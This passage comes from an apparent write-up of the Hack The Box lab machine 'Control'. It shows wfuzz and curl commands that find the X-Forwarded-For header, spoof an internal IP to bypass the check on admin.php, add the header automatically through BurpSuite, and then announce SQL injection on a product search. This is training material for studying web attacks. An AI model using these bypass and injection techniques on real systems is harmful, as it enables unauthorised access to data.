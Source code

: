 <img src="{{ site.img_path }}/control_writeup/Control_10.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

The comment I found in the source code comes back to my mind, so I'm going to use this data (the **IP**) in the header value I'm looking for with `wfuzz` and this way I succeed in finding the name (**[HTTP X-Forwarded-For](https://developer.mozilla.org/en-US/docs/Web/HTTP/Reference/Headers/X-Forwarded-For){:target="_blank"}**) I was looking for. With `curl` I can access the web resource using the header I found and the value, using the **-H** flag, but to do it from the browser I have to use **BurpSuite** to catch the request, manually add the header and thus access the web resource.

> The **[HTTP X-Forwarded-For](https://developer.mozilla.org/en-US/docs/Web/HTTP/Reference/Headers/X-Forwarded-For){:target="_blank"}** (**XFF**) request header is a de-facto standard header for identifying the **originating IP address** of a client connecting to a web server through a proxy server.

```bash
# view-source:http://10.10.10.167/
# 192.168.4.28

wfuzz -c -w /usr/share/SecLists/Miscellaneous/web/http-request-headers/http-request-headers-common-non-standard-fields.txt -H "FUZZ: 192.168.4.28" http://10.10.10.167/admin.php
# 000000022:   200        153 L    466 W      7933 Ch     "X-Forwarded-For"

curl -s -X GET http://10.10.10.167/admin.php -H 'X-Forwarded-For: 192.168.4.28'
curl -s -X GET http://10.10.10.167/admin.php -H 'X-Forwarded-For: 192.168.4.28' | html2text

burpsuite &> /dev/null & disown
# http://10.10.10.167/admin.php
```

<br />
<img src="{{ site.img_path }}/control_writeup/Control_11.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/control_writeup/Control_12.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/control_writeup/Control_13.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/control_writeup/Control_14.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/control_writeup/Control_15.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/control_writeup/Control_16.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/control_writeup/Control_17.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

To avoid having the inconvenience of constantly modifying the application with **BurpSuite** to manually add the header, I am going to create a **rule** that performs the task of injecting the header automatically, this way I can continue my navigation in a more efficient way. The application has a feature that allows me to search for products and I immediately think of an attack via **SQLi**, since it is most likely interacting with a **Database Management System**. I confirm that the application is vulnerable to a simple injection, so I will resort to more elaborate injections to leak information from the database.
